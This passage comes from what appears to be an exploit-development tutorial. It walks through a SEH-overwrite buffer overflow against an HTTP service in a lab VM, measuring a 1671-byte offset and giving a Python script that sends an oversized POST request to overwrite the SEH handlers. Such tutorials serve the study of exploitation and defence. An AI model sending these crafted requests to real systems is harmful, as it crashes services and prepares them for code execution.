 Running this program against the target generates the same crash as before. If we now click on the first address in the SEH chain, right click on it and select "Follow In Stack" and then scroll to the bottom of the stack, we will notice our first error. We appear to have written past the end of the stack:


[![](https://4.bp.blogspot.com/-8DvWXXVyXlQ/VDQ5VpucOnI/AAAAAAAAAW8/rFrnxulqwtE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_006.png)](https://4.bp.blogspot.com/-8DvWXXVyXlQ/VDQ5VpucOnI/AAAAAAAAAW8/rFrnxulqwtE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_006.png)


If we click on the address of the previous SEH handler and then scroll up to the beginning of our A's, we can see that it takes 687 hex bytes, or 1671 bytes to overwrite the previous SEH handler.


[![](https://4.bp.blogspot.com/-GdqEZIhVJWI/VDQ5W5daFEI/AAAAAAAAAXE/065IBKAsmX4/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_007.png)](https://4.bp.blogspot.com/-GdqEZIhVJWI/VDQ5W5daFEI/AAAAAAAAAXE/065IBKAsmX4/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_007.png)


Lets test this theory out:

```python
#!/bin/python
import socket

inital = "A" * 1671
previousSEH = "D" * 4
SEHHandle = "C" * 4
restOfBuffer = "A" * (2050 - (len(inital) + len(previousSEH) + len(SEHHandle)))

buffer = "POST /" + inital + previousSEH + SEHHandle + restOfBuffer + " HTTP/1.1\r\n"
buffer += "User-Agent: Wget/1.13.4\r\n"
buffer += "Host: 192.168.99.142:8080\r\n"
buffer += "Accept: \*/\*\r\n"
buffer += "Connection: Keep-Alive\r\n"
buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
buffer += "Content-Length: 4"
buffer += "\r\n\r\n"
buffer += "licenseID=string&content=string&paramsXML=string"

handle = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
handle.connect(("192.168.82.129", 8080))
handle.send(buffer)
handle.close()
```

If we send this to the target and then observe the SEH chain afterwards, we can see that we successfully overwrite the current and previous SEH handler.


[![](https://3.bp.blogspot.com/-NwD8kIvoSHI/VDQ_JO9hH7I/AAAAAAAAAXc/KOUpARo3tSE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_009.png)](https://3.bp.blogspot.com/-NwD8kIvoSHI/VDQ_JO9hH7I/AAAAAAAAAXc/KOUpARo3tSE/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_009.png)
